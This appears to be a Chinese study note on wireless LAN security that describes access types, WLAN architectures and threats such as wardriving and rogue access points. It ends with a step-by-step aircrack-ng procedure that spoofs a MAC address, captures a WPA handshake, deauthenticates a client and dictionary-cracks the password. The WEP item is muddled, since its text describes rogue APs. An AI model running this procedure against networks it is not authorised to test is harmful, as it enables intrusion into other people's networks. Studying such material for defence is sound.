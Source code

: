 ## 无线安全
### 无线接入方式

- 数字蜂窝接入：数字蜂窝接入的特点是**低速率、终端处理能力弱、存储空间小等**，但该接入方式具备既有的无线链路以及移动性管理、越区切换等通信机制
- 无线局域网接入（WLAN）：多采用扩频传输技术，移动设备在链路层可通过 IEEE 802.11 标准协议或 HiperLAN 协议接入 Internet

### WALN 体系结构

- 基础结构网络（Infrastructure 网络）：带基站（即无线接入点）的无线网络。连接到有线网络的无线路由器可以作为无线接入点，实现 **有线信号** 与 **无线信号** 之间的转换，完成有线网络与无线网络的对接
- 自组织网络（Ad Hoc 网络）：没有有线基础设施支持，省去了无线中介设备 AP 的移动网络，网络中每个节点都是移动的，并且都能以任意方式动态地保持与其他节点的联系

### 无线局域网安全威胁

- WarDriving 入侵：也称为接入点映射或驾驶攻击，是一种在驾车围绕企业或住所邻里时扫描无线网络名称的活动
- WEP 破解：非法 AP 是未经网络管理人员同意或授权的、非法搭建的无线接入点
    - 一是利用专用软件将计算机伪装成 AP，实施中间人攻击，对授权客户端和 AP 进行双重欺骗
    - 二是利用真实的 AP，非法放置在被入侵的网络中
- 非法 AP
    - 占用正常信道，干扰正常的无线通信
    - 截获无线网络通信信号，入侵个人计算机，造成个人信息的泄露
    - 如果是在企事业单位内部网络上搭建非法 AP，则会严重威胁内网安全

### Airodump-ng

1. `airmon-ng` 查看无线网络接口
2. `ifconfig wlan0 down` 停用网卡，修改 MAC `macchanger --mac 00:01:02:03:04:05 wlan0`
3. `airmon-ng start wlan0` 启用网卡
4. `airodump-ng wlan0` 扫描网络
5. `airodump-ng -c 6 -w zbjAPattack --bssid 02:1A: 11:FE:EA:E6 wlan0` 监听握手包
6. `aireplay-ng --deauth 1 -a 02:1A:11:FE:EA:E6 -c 28:16:AD:41:73:F0 wlan0` 攻击
7. `aircrack-ng -w /home/weakPasswdDic.txt zbjAPattack-01.cap` 破解密码
